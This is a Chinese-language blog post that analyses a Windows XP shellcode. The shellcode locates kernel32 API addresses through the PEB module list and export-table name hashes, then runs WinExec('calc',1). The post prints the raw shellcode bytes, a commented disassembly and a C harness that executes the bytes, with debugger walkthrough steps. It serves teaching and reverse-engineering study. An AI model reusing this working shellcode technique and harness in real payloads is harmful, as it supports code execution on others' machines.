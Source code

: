```yaml
---
layout: mypost
title: 一段shellcode的分析调试解释API地址的动态定位
categories: [漏洞分析与利用]
---
```




## 一段shellcode

今天的主角是一段shellcode代码

```c
char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
```

该shellcode的作用是调用系统中winexec函数，使之执行**WinExec("calc",1)**从而弹出计算器。





## 运行环境

操作系统：Windows XP SP3

调试工具：vc 6.0, ollyice



## shellcode原理

实际中使用的shellcode 为了能在不同的主机环境上正常运行，必须还要能动态地获得自身所需的 API 函数地址。 

Windows 的 API 是通过动态链接库中的导出函数来实现的。Win_32 平台下的 shellcode 广泛使用的方法是通过从进程环境块中找到动态链接库的导出表，并搜索出所需的 API 地址，然后逐一调用。

所有 win_32 程序都会加载 ntdll.dll 和 kernel32.dll 这两个基础的动态链接库。如果想要 在 win_32 平台下定位 kernel32.dll 中的 API 地址，可以采用如下方法：

![1571474241042](1571474241042.png)

1. 首先通过段选择字 FS 在内存中找到当前的线程环境块 TEB。 
2. 线程环境块偏移位置为 0x30 的地方存放着指向进程环境块 PEB 的指针。 
3. 进程环境块中偏移位置为 0x0C 的地方存放着指向 PEB_LDR_DATA 结构体的指针， 其中，存放着已经被进程装载的动态链接库的信息。 
4. PEB_LDR_DATA 结构体偏移位置为 0x1C 的地方存放着指向模块初始化链表的头指针 InInitializationOrderModuleList。 
5. 模块初始化链表 InInitializationOrderModuleList 中按顺序存放着 PE 装入运行时初始化模块的信息，第一个链表结点是 ntdll.dll，第二个链表结点就是 kernel32.dll。 
6. 找到属于 kernel32.dll 的结点后，在其基础上再偏移 0x08 就是 kernel32.dll 在内存中的 加载基地址。 
7. 从 kernel32.dll 的加载基址算起，偏移 0x3C 的地方就是其 PE 头。 
8. PE 头偏移 0x78 的地方存放着指向函数导出表的指针。 
9. 至此，我们可以按如下方式在函数导出表中算出所需函数的入口地址
   1. 导出表偏移0x1C处的指针指向存储导出函数偏移地址（RVA）的列表
   2. 导出表偏移0x20处的指针指向存储导出函数名的列表
   3. 函数的RVA地址和名字按照顺序存放在上述两个列表中，我们可以在名称列表中定位到所需的函数是第几个，然后在地址列表中找到对应的RVA
   4. 获得RVA后，再加上前边已经得到的动态链接库的基地址，就能算出API此时在内存中的绝对地址





### shellcode对应的汇编代码

```c
004273B0 > /EB 54           jmp     short 00427406

/*该函数查找winexec函数地址并赋值给ebp*/    
004273B2   |31F6            xor     esi, esi  //esi清零
004273B4   |64:8B76 30      mov     esi, dword ptr fs:[esi+30]  //esi值为指向PEB的指针
004273B8   |8B76 0C         mov     esi, dword ptr [esi+C]  //esi值为指向 PEB_LDR_DATA 结构体的指针
004273BB   |8B76 1C         mov     esi, dword ptr [esi+1C]  //esi值为指向模块初始化链表的指针 InInitializationOrderModuleList

004273BE   |8B6E 08         mov     ebp, dword ptr [esi+8]  //ebp值为模块初始化链表当前结点的基地址
004273C1   |8B36            mov     esi, dword ptr [esi]  //esi值为指向模块初始化链表下一个结点的指针
004273C3   |8B5D 3C         mov     ebx, dword ptr [ebp+3C]  //ebx值为指向当前节点的pe头的指针
004273C6   |8B5C1D 78       mov     ebx, dword ptr [ebp+ebx+78]  //ebx值为当前结点的pe头的导出表的相对地址
004273CA   |85DB            test    ebx, ebx  //若遍历完当前结点的导出表
004273CC  ^|74 F0           je      short 004273BE  //则跳转到下一结点遍历其导出表
004273CE   |01EB            add     ebx, ebp  //ebx加上ebp的基址后得到可直接访问的绝对地址
004273D0   |8B4B 18         mov     ecx, dword ptr [ebx+18]  //偏移18，得到导出表中的函数总数ecx
004273D3   |67:E3 E8        jcxz    short 004273BE  //ecx减为0则跳转，去下一个结点的导出表

    
004273D6   |8B7B 20         mov     edi, dword ptr [ebx+20]  //导出表偏移20处是函数名称列表
004273D9   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273DB   |8B7C8F FC       mov     edi, dword ptr [edi+ecx*4-4]  //把导出表最后一个函数名地址赋给edi
004273DF   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
004273E1   |31C0            xor     eax, eax  //把eax置零
004273E3   |99              cdq  //先把EDX的所有位都设成EAX最高位的值（0）,再把edx扩展为eax的高位，也就是说变为64位。
    
/*此处是对edi所指函数名做hash并与事先入栈的hash（[esp+4]）比较*/
004273E4   |0217            add     dl, byte ptr [edi]  //dl处加上edi所指的一个字节
004273E6   |C1CA 04         ror     edx, 4  //edx循环右移4位
004273E9   |AE              scas    byte ptr es:[edi]  // 将al中的值（0）与es:edi所指向的目的地址处的一个字节进行比较，如果相等，ZF=1（判断字符串是否结尾）
004273EA  ^|75 F8           jnz     short 004273E4  //zf=0则跳转
004273EC   |3B5424 04       cmp     edx, dword ptr [esp+4]  //比较edx和预先入栈的函数名的hash
004273F0  ^|E0 E4           loopdne short 004273D6  //CX-1，若CX!=0且ZX=0则跳转，查询上一个函数名的hash
004273F2  ^|75 CA           jnz     short 004273BE  //zx=0则跳转到下一个结点，遍历其导出表

004273F4   |8B53 24         mov     edx, dword ptr [ebx+24] //结点导出表偏移24为函数序号表
004273F7   |01EA            add     edx, ebp  //edx加上ebp的基址后得到可直接访问的绝对地址
004273F9   |0FB7144A        movzx   edx, word ptr [edx+ecx*2]  //得到函数在序号表中的序号
004273FD   |8B7B 1C         mov     edi, dword ptr [ebx+1C]  //导出表偏移1c指向函数地址表
00427400   |01EF            add     edi, ebp  //edi加上ebp的基址后得到可直接访问的绝对地址
00427402   |032C97          add     ebp, dword ptr [edi+edx*4]  //根据序号得到相对地址，加上基址得到函数的绝对地址
00427405   |C3              retn


/*调用kernel.winexec("calc",1)弹出计算器*/
00427406   \68 E7C4CC69     push    69CCC4E7  //待查找的函数名hash入栈
0042740B    E8 A2FFFFFF     call    004273B2  //调用查找函数查找winexec函数并赋值给ebp
00427410    50              push    eax  
00427411    68 63616C63     push    636C6163  //"calc"
00427416    8BD4            mov     edx, esp  //把栈顶（calc）赋值给edx
00427418    40              inc     eax  //eax加一，为1
00427419    50              push    eax  //参数1入栈
0042741A    52              push    edx  //参数“calc”入栈
0042741B    FFD5            call    ebp  //调用kernel.winexec("calc",1)弹出计算器


/*收尾阶段，完美退出*/
0042741D    68 77A6602A     push    2A60A677  //ExitProcess的hash
00427422    E8 8BFFFFFF     call    004273B2  //找到ExitProcess函数的地址并赋值给ebp
00427427    50              push    eax  //参数0入栈
00427428    FFD5            call    ebp  //ExitProcess(0) 结束调用的进程及其所有的线程

```

### shellcode对应的执行流程

![LocateAPI](stackoverflow_1_locateAPI.png)







## 编写程序调试shellcode



```c
#include<stdio.h>

char evil[] = "\xeb\x54\x31\xf6\x64\x8b\x76\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x6e"
"\x08\x8b\x36\x8b\x5d\x3c\x8b\x5c\x1d\x78\x85\xdb\x74\xf0\x01\xeb"
"\x8b\x4b\x18\x67\xe3\xe8\x8b\x7b\x20\x01\xef\x8b\x7c\x8f\xfc\x01"
"\xef\x31\xc0\x99\x02\x17\xc1\xca\x04\xae\x75\xf8\x3b\x54\x24\x04"
"\xe0\xe4\x75\xca\x8b\x53\x24\x01\xea\x0f\xb7\x14\x4a\x8b\x7b\x1c"
"\x01\xef\x03\x2c\x97\xc3\x68\xe7\xc4\xcc\x69\xe8\xa2\xff\xff\xff"
"\x50\x68\x63\x61\x6c\x63\x8b\xd4\x40\x50\x52\xff\xd5\x68\x77\xa6"
"\x60\x2a\xe8\x8b\xff\xff\xff\x50\xff\xd5";
 
int main(int argc, char **argv)
{
int (*shellcode)();
shellcode = (int (*)()) evil;
(int)(*shellcode)();
}
```

保存代码为sc1.c并拖入vc6.0,编译，运行，弹出计算器。为了使代码更加简洁，我们进入工程-->设置-->C/C++-->工程选项 中删除 /GZ参数。

![1571503838362](1571503838362.png)



把debug模式下的sc1.exe文件拖入ollyice中，定位到main函数：

![1571504269498](1571504269498.png)



进入evil函数：

![1571504353741](1571504353741.png)

在调用winexec函数处下断点，按F9运行至此处：

![1571504522980](1571504522980.png)

![1571504553783](1571504553783.png)

![1571504590506](1571504590506.png)

可以看到将要执行winexec("calc",1)调出计算器窗口。F8单步执行成功调出计算器窗口

![1571504829241](1571504829241.png)



收尾阶段。此时鼠标手动关闭计算器窗口，在CALL EBP 处按F2下断点，F9直接运行至此处

![1571504965489](1571504965489.png)

![1571504987485](1571504987485.png)

![1571504999175](1571504999175.png)

可以看出将要执行WinExec(0)函数用于退出，F8单步运行，系统自动关闭cmd窗口并终止进程。

![1571505109632](1571505109632.png)



